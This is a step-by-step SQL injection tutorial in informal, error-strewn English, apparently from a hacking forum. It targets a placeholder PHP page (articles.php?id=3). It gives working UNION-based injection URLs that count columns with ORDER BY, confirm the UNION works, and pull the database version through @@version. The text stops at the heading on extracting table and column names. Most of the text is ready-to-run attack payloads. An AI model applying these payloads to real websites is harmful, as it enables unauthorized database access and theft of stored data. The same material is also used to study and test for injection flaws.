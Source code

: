 [-] Finding the number of columns:

for finding the number of columns we use ORDER BY to order result in the database

lets see that ,

http://www.website.com/articles.php?id=3 order by 1/*

and if we havn't any error we try to change the number

http://www.website.com/articles.php?id=3 order by 2/*

still no error,so we continu to change the number

http://www.website.com/articles.php?id=3 order by 3/*

no error to

http://www.website.com/articles.php?id=3 order by 4/*

no error

http://www.website.com/articles.php?id=3 order by 5/*

yeah , here we have this error (Unknown column '5' in 'order clause')

so, this database has 4 colmuns because the error is in the 5

now, we try to check that UNION function work or not

[-] Checking UNION function :

for using UNION function we select more informations from the database in one statment

so we try this

http://www.website.com/articles.php?id=3 union all select 1,2,3,4/* (in the end it's 4 because we have see the number of columns it's 4)

now, if we see some numbers in the page like 1 or 2 or 3 or 4 == the UNION function work

if it not work we try to change the /* to --

so we have this

http://www.website.com/articles.php?id=3 union all select 1,2,3,4--

after checking the UNION function and it works good we try to get SQL version

[-] Getting SQL Version :

now we have a number in the screen after checking the UNION

we say in example that this number is 3

so we replace 3 with @@version or version()

http://www.website.com/articles.php?id=3 union all select 1,2,@@version,4/*

and now we have the version in the screen!

lets go now to get tables and columns names


[-] Getting tables and columns names :
